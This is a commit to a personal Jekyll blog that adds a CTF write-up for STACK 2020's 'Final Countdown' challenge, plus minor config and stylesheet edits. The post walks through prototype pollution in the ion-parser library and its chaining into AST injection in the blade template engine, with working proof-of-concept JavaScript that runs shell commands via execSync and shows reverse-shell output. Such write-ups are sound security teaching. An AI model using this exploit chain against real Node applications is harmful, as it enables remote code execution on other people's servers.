

Before and after one commit to quanyang/quanyang.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 74% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 1605 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
write up for final countdown

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -5,7 +5,6 @@
 description: Quan Yang's blog.
 search: true
 url: http://127.0.0.1:4000
-url: https://quanyang.github.io
 
 
 # Jekyll configuration
--- /dev/null
+++ b/_posts/blog/2020-12-12-stack-2020-final-countdown.md
@@ -0,0 +1,476 @@
+---
+layout: post
+title: STACK 2020 - Final Countdown
+modified:
+categories: blog/
+excerpt:
+tags: []
+image:
+  feature:
+share: true
+comments: true
+date: 2020-12-12T22:03:41+08:00
+---
+
+This challenge was part of the STACK the flags 2020 CTF organized by GovTech. I solved this challenge after the CTF was over as it wasn't available to us during the CTF.
+
+This is a pretty interesting challenge that requires exploiting a prototype pollution vulnerability in a library (ion-parser) in order to manipulate another library (blade) in order to achieve remote code execution.
+
+# Final Countdown
+**Category:** Web
+
+[Source Code]({{site.url|append: site.baseurl}}/resources/files/stack/final_countdown.zip)
+**sha265**: 23fe6d930ad391511e6d2ad1987d9d0531be88705711caaea9efe2efa6da5923
+
+---
+
+A quick glance at the provided source code tells us that this is a web application written in NodeJS. Looking at `app.js`, we find routers being defined for the web application.
+
+>app.js
+{:.filename}
+{% highlight javascript linenos %}
+...
+
+app.use('/', indexRouter);
+app.use('/ransomware', ransomwaresRouter);
+app.use('/victim', victimsRouter);
+app.use('/ransom', ransomsRouter);
+
+...
+{% endhighlight %}
+
+Looking through the other JavaScript code, we can learn that this appears to be a ransomware dashboard detailing any collected ransom(s), the victim(s) and details on any deployed ransomware(s), one interesting observation is that you can export the data in the TOML format (Tom's Obvious, Minimal Language) which looks similar to YAML.
+
+Performing a quick audit of the entire source code, we don't find any obvious vulnerability in any of the defined routes, however, there is a particular route in `ransomwares.js` that appears to be incomplete and more importantly, passes unsanitized user input into a TOML parser (ion-parser).
+
+>ransomwares.js
+{:.filename}
+{% highlight javascript linenos %}
+router.post('/:id/config', upload.single('config'), async function (req, res) {
+  try {
+    var config = parse(req.file.buffer.toString());
+    // await Ransomware.update(config, { where: { id: req.params.id } })  // database locked for maintenance
+    res.redirect('/ransomware/' + req.params.id);
+
+  } catch {
+    res.sendStatus(500)
+  }
+});
+{% endhighlight %}
+
+### ion-parser library
+A quick look up on [ion-parser](https://www.npmjs.com/package/ion-parser) shows that this library hasn't been updated in over a year and the GitHub repository no longer exists.
+
+Looking at some sample TOML data, I hypothesize that it might be possible for a prototype pollution vulnerability to exist in the library and we can quickly verify that with the following NodeJS code:
+
+{% highlight javascript linenos %}
+const { parse } = require('ion-parser')
+
+console.log("Before:", ({}).somevar)
+
+const config = parse(`
+[__proto__]
+somevar = 'this is prototype pollution!'
+`)
+
+console.log("After:", ({}).somevar)%
+{% endhighlight %}
+
+Running gives us the following output:
+
+{% highlight bash linenos %}
+→ node sample.js
+Before: undefined
+After: this is prototype pollution!
+{% endhighlight %}
+
+Running the above code shows that we have managed to inject properties into `Object.prototype`, which most objects inherits from.
+
+You can read more about prototype pollution [here](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications).
+
+Looking at the source code for ion-parser, we can find multiple places where prototype pollution could occur, but I'll leave this as an exercise for the reader.
+
+### Achieving Remote Code Execution
+> So now that we have prototype pollution, how do we escalate this into remote code execution (RCE)?
+
+Prototype pollution allows us to inject properties into objects, and so if we are able to control values of a property that is then used in a dangerous function like `eval` or `exec`, we would be able to abuse that in order to achieve RCE.
+
+![]({{site.url|append: site.baseurl}}/resources/images/stack/ast.png)
+*Image from https://blog.p6.is/AST-Injection/*
+
+Template engines like **handlebars**, **pug** makes good targets as they often have phases where templates are parsed into abstract syntax tree (AST) before being compiled and executed. Therefore, if we are able to influence the AST, we would be able to achieve RCE when it is executed.
+
+POSIX has a great blog post on AST injection for **handlebars** and **pug**, you can read more about it [here](https://blog.p6.is/AST-Injection/).
+
+In this CTF challenge, the [blade](https://github.com/bminer/node-blade) template engine is used by the web application to render HTML output.
+
+Let's start by looking at a simple example and observe what is going on. Notice I set `debug` to `true` in order to get more information.
+
+{% highlight javascript linenos %}
+const blade = require('blade');
+
+const template = `html
+    head
+        title Blade
+    body
+        #nav
+            ul
+                - for(var i in nav)
+                    li
+                        a(href=nav[i])= i
+        #content.center
+            h1 Blade is cool`;
+blade.compile(template, {'debug': true}, function(err, tmpl) {
+});
+{% endhighlight %}
+
+Running this gave us the following output:
+{% highlight bash linenos %}
+→ node sample.js
+Compiling:
+html
+    head
+        title Blade
+    body
+        #nav
+            ul
+                - for(var i in nav)
+                    li
+                        a(href=nav[i])= i
+        #content.center
+            h1 Blade is cool
+---------------------------------------------
+AST:
+ {
+  doctypes: [],
+  nodes: [
+    {
+      type: 'tag',
+      name: 'html',
+      id: null,
+      classes: [],
+      attributes: {},
+      children: [
+        ** truncated **
+                            {
+                              type: 'tag',
+                              name: 'a',
+                              id: null,
+                              classes: [],
+                              attributes: { href: [Object] },
+                              children: [ [Object] ],
+                              line: 9,
+                              col: 25
+                            }
+        ** truncated **
+      ],
+      line: 1,
+      col: 1
+    }
+  ]
+}
+---------------------------------------------
+Template:
+__ = __ || [];__.r = __.r || blade.Runtime;if(!__.func) __.func = {},__.blocks = {},__.chunk = {};__.locals = locals || {};
+try {with(__.locals) {__.line=1,__.col=1;__.push('<html'+'>');__.line=2,__.col=5;__.push('<head'+'>');__.line=3,__.col=9;__.push('<title'+'>'+"Blade"+'</title>'+'</head>');__.line=4,__.col=5;__.push('<body'+'>');__.line=5,__.col=9;__.push('<div'+' id="nav"'+'>');__.line=6,__.col=13;__.push('<ul'+'>');__.line=7,__.col=17;for(var i in nav)
+{__.line=8,__.col=21;__.push('<li'+'>');__.line=9,__.col=25;__.push('<a');__.r.attrs({"href":{v:nav[i],e:1}}, __);__.push('>'+__.r.escape(i
+)+'</a>'+'</li>');}__.push('</ul>'+'</div>');__.line=10,__.col=9;__.push('<div'+' id="content"'+' class="center"'+'>');__.line=11,__.col=13;__.push('<h1'+'>'+"Blade is cool"+'</h1>'+'</div>'+'</body>'+'</html>');}} catch(e){return cb(__.r.rethrow(e, __) );}if(!__.inc) __.r.done(__);cb(null, __.join(""), __);
+---------------------------------------------
+{% endhighlight %}
+
+The debug information shows us the AST and the template code after compilation, from here, the goal is straightforward: ***we need to influence the process such that we are able to inject arbitrary code into the final compiled template***.
+
+I started by running the same sample code, but with prototype pollution, in order to begin testing the effects it has on the compilation process.
+
+{% highlight javascript linenos %}
+const blade = require('blade');
+
+Object.prototype.someprop = {'test': 'test'};
+
+const template = `html
+    head
+        title Blade
+    body
+        #nav
+            ul
+                - for(var i in nav)
+                    li
+                        a(href=nav[i])= i
+        #content.center
+            h1 Blade is cool`;
+blade.compile(template, {'debug': true}, function(err, tmpl) {
+    console.log(err);
+});
+{% endhighlight %}
+
+This time, the compilation process failed and we are provided a non-null error:
+{% highlight bash linenos %}
+---------------------------------------------
+AST:
+ {
+  doctypes: [],
+  nodes: [
+    {
+      type: 'tag',
+      name: 'html',
+      id: null,
+      classes: [],
+      attributes: {},
+      children: [
+        ** truncated **
+                            {
+                              type: 'tag',
+                              name: 'a',
+                              id: null,
+                              classes: [],
+                              attributes: { href: [Object], undefined: undefined },
+                              children: [ [Object] ],
+                              line: 9,
+                              col: 25
+                            }
+        ** truncated **
+      ],
+      line: 1,
+      col: 1
+    }
+  ]
+}
+---------------------------------------------
+TypeError: Compile error: Cannot read property 'text' of undefined
+    at <anonymous>
+
+
+    at Compiler._compileNode (/source/node_modules/blade/lib/compiler.js:309:17)
+    at Compiler._compileNode (/source/node_modules/blade/lib/compiler.js:356:12)
+    at Compiler._compileNode (/source/node_modules/blade/lib/compiler.js:486:11)
+    at Compiler._compileNode (/source/node_modules/blade/lib/compiler.js:356:12)
+    at Compiler._compileNode (/source/node_modules/blade/lib/compiler.js:356:12)
+    at Compiler._compileNode (/source/node_modules/blade/lib/compiler.js:356:12)
+    at Compiler._compileNode (/source/node_modules/blade/lib/compiler.js:356:12)
+    at Compiler.compile (/source/node_modules/blade/lib/compiler.js:114:9)
+    at Object.compile (/source/node_modules/blade/lib/blade.js:57:12)
+    at Object.<anonymous> (/source/sample.js:16:7) {
+  source: 'html\n' +
+    '    head\n' +
+    '        title Blade\n' +
+    '    body\n' +
+    '        #nav\n' +
+    '            ul\n' +
+    '                - for(var i in nav)\n' +
+    '                    li\n' +
+    '                        a(href=nav[i])= i\n' +
+    '        #content.center\n' +
+    '            h1 Blade is cool',
+  column: undefined,
+  lastFilename: undefined,
+  filename: undefined,
+  line: undefined
+}
+{% endhighlight %}
+
+Compared to the previous AST, notice that in this AST, the `a` node has an additional `undefined` attribute, possibly due to the prototype pollution.
+
+From here, we begin diving into the source code for **blade**, in order to figure out why the error was occurring, this lead me to the following code within the parser module for **blade**:
+
+>blade/lib/parser/index.js
+{:.filename}
+{% highlight javascript linenos %}
+** truncated **
+            result0 = (function(offset, line, column, first_attr, next_attrs) {
+                    var attrs = {};
+                    attrs[first_attr.name] = first_attr.value;
+                    for(var i in next_attrs)
+                        attrs[next_attrs[i].name] = next_attrs[i].value;
+                    return attrs;
+                })(pos0.offset, pos0.line, pos0.column, result0[3], result0[4]);
+** truncated **
+{% endhighlight %}
+
+So it seems like because `first_attr.name` is undefined and `first_attr.value` is undefined, we end up with the object in the AST above where we have an `undefined` property with `undefined` value.
+
+This means, the following sample code with prototype pollution should allow us to successfully compile the template without any errors:
+
+{% highlight javascript linenos %}
+const blade = require('blade');
+
+Object.prototype.someprop = {
+    'test': 'test',
+    'name': 'somename',
+    'value': 'somevalue'
+};
+
+const template = `html
+    head
+        title Blade
+    body
+        #nav
+            ul
+                - for(var i in nav)
+                    li
+                        a(href=nav[i])= i
+        #content.center
+            h1 Blade is cool`;
+blade.compile(template, {'debug': true}, function(err, tmpl) {
+    console.log(tmpl);
+});
+{% endhighlight %}
+
+This gave us the following output
+
+{% highlight bash linenos %}
+AST:
+ {
+  doctypes: [],
+  nodes: [
+    {
+      type: 'tag',
+      name: 'html',
+      id: null,
+      classes: [],
+      attributes: {},
+      children: [
+      ** truncated **
+                            {
+                              type: 'tag',
+                              name: 'a',
+                              id: null,
+                              classes: [],
+                              attributes: { href: [Object], somename: 'somevalue' },
+                              children: [ [Object] ],
+                              line: 9,
+                              col: 25
+                            }
+        ** truncated **
+      ],
+      line: 1,
+      col: 1
+    }
+  ]
+}
+---------------------------------------------
+Template:
+__ = __ || [];__.r = __.r || blade.Runtime;if(!__.func) __.func = {},__.blocks = {},__.chunk = {};__.locals = locals || {};
+try {with(__.locals) {__.line=1,__.col=1;__.push('<html');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>');__.line=2,__.col=5;__.push('<head');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>');__.line=3,__.col=9;__.push('<title');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>'+"Blade"+'</title>'+'</head>');__.line=4,__.col=5;__.push('<body');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>');__.line=5,__.col=9;__.push('<div'+' id="nav"');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>');__.line=6,__.col=13;__.push('<ul');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>');__.line=7,__.col=17;for(var i in nav)
+{__.line=8,__.col=21;__.push('<li');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>');__.line=9,__.col=25;__.push('<a');__.r.attrs({"href":{v:nav[i],e:1},"somename":{v:undefined},"someprop":{v:undefined}}, __);__.push('>'+__.r.escape(i
+)+'</a>'+'</li>');}__.push('</ul>'+'</div>');__.line=10,__.col=9;__.push('<div'+' id="content"'+' class="center"');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>');__.line=11,__.col=13;__.push('<h1');__.r.attrs({"someprop":{v:undefined}}, __);__.push('>'+"Blade is cool"+'</h1>'+'</div>'+'</body>'+'</html>');}} catch(e){return cb(__.r.rethrow(e, __) );}if(!__.inc) __.r.done(__);cb(null, __.join(""), __);
+---------------------------------------------
+{% endhighlight %}
+
+We can observe that `somename` is reflected in the compiled template, however, we were not able to escape the double-quote string context in order to inject arbitrary JavaScript. Therefore, the next step from here is to find a property that would allow us to inject arbitrary JavaScript code into the compiled template. ***Back to blade's source code..***
+
+Looking at the compiler code for Blade, we can find this segment that handles the compiled template based on the attribute type:
+
+>blade/lib/compiler.js
+{:.filename}
+{% highlight javascript linenos %}
+** truncated **
+                //take care of text attributes here
+                if(attrs[i].text != null)
+                {
+                    if(attrs[i].escape)
+                        this._push("' " + i + "=" + bladeutil.quote(
+                            JSON.stringify(runtime.escape(attrs[i].text)) ) + "'");
+                    else
+                        this._push("' " + i + "=" + bladeutil.quote(
+                            JSON.stringify(attrs[i].text) ) + "'");
+                }
+                //take care of code attributes here
+                else
+                    varAttrs += "," + JSON.stringify(i) + ":{v:" + attrs[i].code +
+                        (attrs[i].escape ? ",e:1" : "") +
+                        (i == "class" && attrs[i].append ?
+                            ",a:" + JSON.stringify(attrs[i].append): "") + "}";
+** truncated **
+{% endhighlight %}
+
+It seems like if we are able to inject a node with code attribute, we would be able to inject arbitrary JavaScript into the final compiled template and when executed in the runtime, give us RCE.
+
+We can test this out by running the following:
+
+{% highlight javascript linenos %}
+const blade = require('blade');
+
+Object.prototype.someprop = {
+    'name': 'somename',
+    'value': 'somevalue',
+    'code' : "process.mainModule.require('child_process').execSync(`whoami`)"
+};
+
+const template = `html
+    head
+        title Blade
+    body
+        #nav
+            ul
+                - for(var i in nav)
+                    li
+                        a(href=nav[i])= i
+        #content.center
+            h1 Blade is cool`;
+blade.compile(template, {'debug': true}, function(err, tmpl) {
+    tmpl({'nav': []}, function(err, html) {
+        console.log(html, err);
+    });
+});
+{% endhighlight %}
+
+With that, we can combine our exploit for **ion-parser** and **blade**, to exploit the prototype pollution in **ion-parser** in order to inject into the AST for **blade** giving us RCE.
+
+{% highlight javascript linenos %}
+const blade = require('blade');
+const { parse } = require('ion-parser')
+const config = parse(`
+test = 'Hey universe'
+
+[__proto__.someprop]
+name = "somename"
+value = "somevalue"
+code = "process.mainModule.require('child_process').execSync(\`whoami\`)"
+`)
+
+const template = `html
+    head
+        title Blade
+    body
+        #nav
+            ul
+                - for(var i in nav)
+                    li
+                        a(href=nav[i])= i
+        #content.center
+            h1 Blade is cool`;
+blade.compile(template, {'debug': true}, function(err, tmpl) {
+    tmpl({'nav': []}, function(err, html) {
+        console.log(html, err);
+    });
+});
+{% endhighlight %}
+
+### Getting the flag
+
+With our exploit in hand, we can craft a HTTP request to the challenge website to get a reverse shell:
+
+{% highlight bash linenos %}
+Connection from node-02.challenges.stacks2020 35917 received!
+→ ls
+Dockerfile.dev
+app.js
+bin
+config
+flag.txt
+migrations
+models
+node_modules
+package-lock.json
+package.json
+public
+routes
+seeders
+views
+wait-for-db.sh
+watcher.js
+→ cat flag.txt
+govtech-csg{P01lU+3d_t3Mpl@t3}
+{% endhighlight %}
+
+And we have our flag: ***govtech-csg{P01lU+3d_t3Mpl@t3}***
--- a/_sass/_page.scss
+++ b/_sass/_page.scss
@@ -330,3 +330,16 @@
 		vertical-align: middle;
 	}
 }
+
+.filename {
+  padding: 0px;
+  margin: 0px;
+  background-color: #292929;
+  color: lightgrey;
+  border-top-left-radius: 3px;
+  border-top-right-radius: 3px;
+  margin-bottom: -25px;
+  padding-left: 1em;
+  font-family: Menlo,Monaco,Consolas,"Courier New",monospace;
+  border-left: 0px;
+}
```
Also changed, not shown: resources/images/stack/ast.png (added), 2 other files.
